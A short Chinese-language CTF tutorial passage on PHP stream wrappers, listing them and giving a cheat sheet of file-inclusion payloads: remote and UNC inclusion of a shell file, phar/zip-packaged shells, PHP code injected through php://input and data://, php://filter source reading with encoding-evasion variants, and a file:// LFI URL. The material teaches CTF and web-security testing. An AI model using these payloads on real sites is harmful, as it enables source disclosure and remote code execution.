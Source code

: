 

### **PHP中支持的伪协议**

```php
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```



```php
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= 
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
```



### 伪协议利用：file://

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on
allow_url_include：off/on





**file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响**



需要绝对路径

```p
http://127.0.0.1/ddctf/lfi/?file=file://D:\phpStudy\PHPTutorial\WWW\ddctf\test.php
```
